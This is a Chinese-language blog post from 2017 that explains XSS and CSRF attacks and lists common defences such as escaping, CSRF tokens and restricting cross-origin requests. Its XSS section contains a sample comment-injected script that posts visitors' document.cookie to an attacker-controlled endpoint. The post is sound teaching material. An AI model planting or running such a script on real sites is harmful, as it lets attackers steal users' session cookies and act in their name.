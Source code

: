 ```yaml
---
title: 前端安全：XSS与CSRF
date: 2017-11-27 09:32:10
tags: 技术博客
---
```

## XSS的原理和防范方式
XSS全称Cross Site Scripting（为啥不叫CSS？为了和层叠样式表Cascading Style Sheets区分），即跨站脚本攻击。
定义 恶意用户 是实行XSS攻击的人，恶意代码 是指含有某些可执行恶意前端脚本的代码，目标用户 是指受到XSS攻击的人。
恶意用户将恶意脚本装作普通文本的样式上传到服务器，这些文本将被渲染到目标用户的页面上，从而被执行，这样的流程称之为‘跨站脚本攻击’。
举例：有一个发表评论的功能，一个人发表了评论大家就都能看见，于是恶意用户就在这个评论区发表了以下代码：
{% codeblock lang:JavaScript %}
var request = new XMLHttpRequest();
request.open('POST', '/攻击者自家的收集数据的接口', true);
request.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded; charset=UTF-8');
request.send(document.cookie);
{% endcodeblock %}
如果这个代码未经过滤直接执行，那么攻击者将会收集所有访问这个评论区的用户的cookie以便执行只有目标用户才有权限做的事情。
作为网站建设方，我们通常可以采取以下手段来防止XSS攻击：
1. 转义 &lt; &gt; 这些特殊字符为实体字符
2. 利用正则判断攻击脚本
3. 尽量修改节点文本而不是修改节点内容html

事实上，现代模板引擎和MVVM框架往往都自带防御XSS攻击的模板写法。
例如在ng2、Vue和handlebars.js里，双花括号表示自动过滤，三花括号才表示不经转义直接输出。

## CSRF的原理和防范方式
CSRF全称Cross-site request forgery（跨站请求伪造）是指恶意用户将某些需要他人权限的接口埋藏在自己的脚本中，将脚本利用XSS相同的注入方式或诱导用户点击执行等方式令拥有权限者执行，从而达到自己的目的。
例如，恶意用户想要给某个人刷票，而一个微信号只能投一张票，他发现了刷票的接口为A，则将对A进行Ajax请求的XSS脚本注入某网站（方法1）,或者利用像色情等吸引眼球的方法（方法2）将此段脚本内嵌入自己写的网页中诱使他人点击，从而实现不断有有效用户访问这个接口的目的。
作为网站建设方，我们通常可以使用以下手段来防止CSRF攻击：
1. 尽量对要修改数据的请求使用post而不是get
2. 给每一次用户登陆分配一个临时token，用服务端的setCookie头将此token种入用户cookie中，每次请求比对用户方token与服务器端token是否吻合。
3. 服务器禁止跨域请求
4. 及时清除用户的无效cookie
